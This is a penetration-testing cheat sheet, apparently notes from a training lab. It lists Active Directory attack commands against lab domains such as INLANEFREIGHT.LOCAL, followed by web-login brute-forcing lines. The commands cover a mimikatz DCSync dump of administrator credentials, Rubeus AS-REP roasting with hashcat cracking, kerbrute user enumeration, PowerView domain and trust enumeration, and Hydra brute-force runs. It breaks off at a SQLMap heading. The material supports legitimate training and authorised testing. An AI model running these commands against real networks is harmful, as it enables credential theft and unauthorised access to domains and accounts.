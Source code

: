View the group membership of a specific user
- `Get-DomainUser -Identity adunn | select samaccountname,objectsid,memberof,useraccountcontrol |fl`

Perform a dcsync attack
- `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`

### Miscellanous Configurations

Enumerate a Windows target for MS-PRN Printer bug
- `Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL`

Display the description field of select objects
- `Get-DomainUser * | Select-Object samaccountname,description`

Check for the PASSWD_NOTREQD setting
- `Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol`

### ASREPRoasting

Search for the DONT_REQ_PREAUTH value
- `Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl`

Perform an ASREP Roasting attack
- `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`

Crack the captured hash
- `hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt`

Enumerate users and retrieve the AS for any users found
- `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`

### Trust Relationships Child Parent Trusts

Enumerate a target Windows domain's trust relationships
- `Get-ADTrust -Filter *`

Enumerate a target Windows domain's trust relationships
- `Get-DomainTrust`

Perform a domain trust mapping
- `Get-DomainTrustMapping`

### Trust Relationships - Cross-Forest

Enumerate accounts for associated SPNs
- `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName`

Enumerate the mssqlsvc account
- `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof`

Enumerate groups with users that do not belong to the domain
- `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL`
```

## Login Brute Forcing

### Hydra

Basic authentication brute force with wordlists
- `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`

Login form brute force with static username and password wordlist
- `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'>"`
### SQLMap
```